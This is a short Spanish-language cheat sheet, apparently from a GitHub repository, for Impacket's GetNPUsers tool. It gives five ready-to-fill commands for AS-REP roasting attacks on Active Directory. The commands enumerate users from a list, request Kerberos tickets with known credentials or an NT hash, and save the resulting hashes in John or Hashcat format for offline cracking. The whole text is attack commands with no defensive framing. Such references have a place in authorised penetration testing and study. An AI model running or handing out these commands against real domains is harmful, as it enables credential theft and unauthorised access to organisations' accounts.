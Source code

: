 # GetNPUsers Cheat Sheet

#### Ataque TGT usando un archivo de listado de posbles usuarios
```
impacket-GetNPUsers <DOMAIN>/ -no-pass -usersfile <FILE-USERS>
```

#### Ataque TGT usando un archivo de listado de posbles usuarios y guardar el resultado en formato John
```
impacket-GetNPUsers <DOMAIN>/ -dc-ip <IP> -format john -outputfile hashes.asreproast -no-pass -usersfile <FILE_USERS>
```

#### ASRepRoast Attack - con usuario y contraseña que tengamos
```
impacket-GetNPUsers -dc-ip <IP> -request -outputfile ASREProastables.txt <DOMAIN>/<USER>
```

#### ASRepRoast Attack - con usuario y contraseña que tengamos y obteniendo el resultado en formato HashCat
```
impacket-GetNPUsers -dc-ip <IP> -request -format hashcat -outputfile ASREProastables.txt <DOMAIN>/<USER>
```

#### ASRepRoast Attack - usando Hash NT de un usuario que tengamos
```
impacket-GetNPUsers -dc-ip <IP> -request -outputfile ASREProastables.txt -hashes '<LM-HASH>:<NT-HASH>' <DOMAIN>/<USER>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)